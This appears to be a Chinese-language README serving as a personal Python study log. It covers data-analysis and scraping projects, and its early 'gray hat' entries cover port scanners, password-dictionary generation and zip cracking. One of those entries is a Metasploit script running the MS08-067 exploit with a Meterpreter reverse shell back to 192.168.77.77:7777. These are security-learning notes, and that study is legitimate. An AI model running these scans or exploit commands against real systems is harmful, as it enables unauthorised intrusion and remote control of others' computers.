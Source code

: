 # learn-python
###20160510 python 灰帽编程 3   
  ip、port扫描器；生成ip段。
###20160510 python 灰帽编程 4   
  解析域名，生成用户名-口令 字典，包括根据域名生成的用户名口令。
###20160705 python绝技 
####retBanner.py
  socket扫描ip，port，通过返回的banner查询vulnerable.txt
####zippass.py
  zFile = zipfile.ZipFile('evil.zip', 'r')
  zFile.extractall(pwd='password')
  使用多线程：
  t = Thread(target = functionname, args = (args))
  t.start
####4scanner.py
  argparse解析命令行参数
  参数用-h会与默认的帮助的-h冲突
  命令行下运行时需要使用python name.py
  --portlist --后的是变量名
  nargs = '*' 可是多个变量（端口）

```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
####2-5-conficker.py
  使用python nmap发现主机（扫描）
```python
  def findTgts(subNet):
    nmScan = nmap.PortScanner()
    nmScan.scan(subNet, '445')
    tgtHosts = []
    for host in nmScan.all_hosts():
        if nmScan[host].has_tcp(445):
            state = nmScan[host]['tcp'][445]['state']
            if state == 'open':
                print '[+] Found Target Host: ' + host
                tgtHosts.append(host)
    return tgtHosts
```
  使用python为metasploit配置.rc文件，操作metasploit：
```python
configFile.write('use exploit/windows/smb/psexec\n')
  ...
  configFile = open('meta.rc', 'w')
```
####2-6-freeFloat.py
  写PoC
```shell
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 192.168.1.37
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST 192.168.77.77
  set LPORT 7777
  exploit –j –z
```
  为了利用Metasploit的攻击，我们选择我们的Exploit(exploit/windows/smb/ms08_067_netapi)，然后设置目标为192.168.1.37。接下来我们指定攻击荷载为windows/meterpreter/reverse_tcp选择反向连接到我们的192.168.77.77的7777端口上，最后我们告诉Metasploit开始攻击系统。保存配置文件为conficker.rc，我们可以通过命令
  msfconsole -r conficker.rc
  来启动我们的攻击。这个命令会告诉Metasploit根据conficker.rc来启动攻击。如果成功，我们的攻击会返回一个命令行Shell来控制对方电脑。 

####32recycle.py 
  用Python 将用户的SID 关联起来:通过检查 Windows 注册表键值HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\<SID>\ProfileImagePath，我们可以看到它返回 一个是%SystemDrive%\Documents and Settings\<USERID>。在下图中，我 们看到这允许我们将SID 为S-1-5-21-1275210071-1715567821-725345543- 1005 转化为用户名“alex”。
  ```python
  key = _winreg.OpenKey(_winreg.HKEY_LOCAL_MACHINE, "SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\\" + sid)
              (value, type) = _winreg.QueryValueEx(key, "ProfileImagePath")
              user = value.split('\\')[-1]
  ```

###20161204 使用python抓取并分析数据—链家网(requests+BeautifulSoup)
	http://bluewhale.cc/2016-12-04/use-python-crawl-and-analysis-data-lianjia-requests-and-beautifulsoup.html
	scipy的安装问题【scipy-0.15.1-win32-superpack-python2.7.exe安装包】
	pandas入门 http://pda.readthedocs.io/en/latest/chp5.html
	sklearn 是一个 Python 的 科学计算库，提供了数种聚类算法可供选择；numpy、scipy 是 Python 的科学运算库，matplotlib 是图形库，用于绘图。http://www.jianshu.com/p/93c03a09d689
###20161220 renrendai爬虫与贷款数据分析
  画图，pandas中数据的分类统计；
  ```python
  #按贷款目的汇总贷款笔数
  title_count=rrd.groupby('title')['amount'].agg('count')
  ```
###20161227 python机器学习sklearn
  官方例子：\learn-python\sklearn\plot_digits_classification.py
  from sklearn import datasets 自带数据集
  digits = datasets.load_digits() 手写数字数据
  SVM分类，前一半训练，后一半预测（分类）
  ```python
  # Create a classifier: a support vector classifier
  classifier = svm.SVC(gamma=0.001)
  # We learn the digits on the first half of the digits
  classifier.fit(data[:n_samples / 2], digits.target[:n_samples / 2])
  # Now predict the value of the digit on the second half:
  expected = digits.target[n_samples / 2:]
  predicted = classifier.predict(data[n_samples / 2:])
  ```
  画图
  ```python
  #使用方法：subplot（m,n,p）subplot是将多个图画到一个平面上的工具。
  # 其中，m表示是图排成m行，n表示图排成n列，也就是整个figure中有n个图是排成一行的，
  # 一共m行，如果m=2就是表示2行图。p表示图所在的位置，p=1表示从左到右从上到下的第一个位置。
  plt.subplot(4, 7, index + 15)
  ```
###20170221 NYC_Taxi 使用Python分析纽约出租车搭乘数据
  Read more: http://bluewhale.cc/#ixzz4ZIpKZQqW
  pd操作
###20170222 lianjia_spider 网上的一个链家爬虫，还未测试
###20170223 pygame 未完成
###20170224 socket 用python实现的socket通信
    python socket编程详细介绍 http://blog.csdn.net/rebelqsp/article/details/22109925
    Python Socket 网络编程 http://www.cnblogs.com/hazir/p/python_socket_programming.html
    input()与raw_input()：最好用raw_input();
    用socket.sendall();

###20170404 花瓣网图片爬虫     <font color=OrangeRed>好！！！</font>
    learn-python\qiubai_crawler、4_grab_huaban_board.py 
    不错的代码，print color函数；多线程；
    ```python
    #get ajax pin data 异步（下拉加载更多）
    url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1])
    
    # 详细使用文档请参考: http://www.saintic.com/blog/204.html
    # user（用户） 下有 board（画板），再下有pin（图片）
    # http://huaban.com/boards/%s/?limit=100 在下拉加载更多的页面上直接请求100个
    # url = "http://huaban.com/boards/%s/?max=%s&limit=100&wfl=1" %(board, pins[-1]) 请求到max=pins[-1]个 即最后一个。最多100个
    ```

###scan_ips_ports结合了正则、socket等的简单扫描器

###toutiao spider 通过保存toutiao的图片学用mongodb

###CmdPipe 输出重定向、logging模块

###20170510 调用shodan 

###20170510 Scanless
使用以下几个网站进行扫描：
Scanner Name   | Website
---------------|------------------------------
yougetsignal   | http://www.yougetsignal.com
viewdns        | http://viewdns.info
hackertarget   | https://hackertarget.com
ipfingerprints | http://www.ipfingerprints.com
pingeu         | http://ping.eu
spiderip       | https://spiderip.com
portcheckers   | http://www.portcheckers.com


###20170515 smart_login
 [转]
本项目用于研究和分享各大网站的模拟登陆方式,主要使用selenium+phantomjs或者直接登录的方式,语言采用Python
可以在登录过后得到的cookie维护起来，然后调用requests或者scrapy等进行数据采集，这样数据采集的速度可以得到保证。

###20170519 data_analyse\tableau
蓝鲸的网站分析笔记 使用python和tableau对数据进行抓取及可视化 http://bluewhale.cc/2017-05-05/use-python-and-tableau-to-capture-and-visualize-the-data.html

### 20170726 70个Python练手项目列表 实验楼 1 图片转字符画：将256灰度映射到70个字符上
```python
from PIL import Image  # sudo pip install pillow
```
### 20170808 70个Python练手项目列表 实验楼 2 实现2048游戏 https://www.shiyanlou.com/courses/368/labs/1172/document
有限状态机，矩阵转置、列表遍历等基本数据操作
